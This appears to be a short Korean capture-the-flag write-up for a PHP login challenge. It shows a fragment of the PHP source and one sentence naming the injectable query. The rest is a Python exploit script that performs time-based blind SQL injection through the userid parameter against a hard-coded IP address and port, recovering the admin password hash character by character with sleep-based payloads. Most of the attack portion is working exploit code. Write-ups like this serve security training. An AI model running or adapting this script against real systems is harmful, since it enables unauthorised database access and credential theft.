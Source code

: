 ```php
    } catch(Exception $e) {
    }
} else {
    show_source(__FILE__);
}
?>
```
PHP에서 SQL Injection 취약점이 존재하는 함수인 `$mysqli->query($query);`를 사용하고 있다. 패스워드는 md5 해쉬 알고리즘을 사용하고 있어 userid를 통해 Blind SQL Injection을 수행하였다.    
    

## Exploit Code    
```python
import requests
import time

url = "http://3.34.190.217:2023/"
password = ""
length_password = 0
for i in range(64): 
    start = time.time() 
    r = requests.get(
                url, 
                params={
                    "userid": "aaaa' or if(length(password)={},sleep(3),false)#".format(i),
                    "password": "test"
                }
            )
    end = time.time() 
    if end - start >= 1.5: 
        length_password = i 
        print(f"Length of Password: {i}")
        break 
        
for i in range(1, length_password + 1):
    for j in range(32, 128):
        start = time.time()
        r = requests.get(
                url, 
                params={
                    "userid": "aaaa' or if(ascii(substr(password,{},1))={},sleep(3),false)#".format(i, j),
                    "password": "test"
                }
            )
        end = time.time()
        if end - start >= 1.5: 
            password += chr(j) 
            print(password)

print("Admin MD5 Password:", password) 
```     
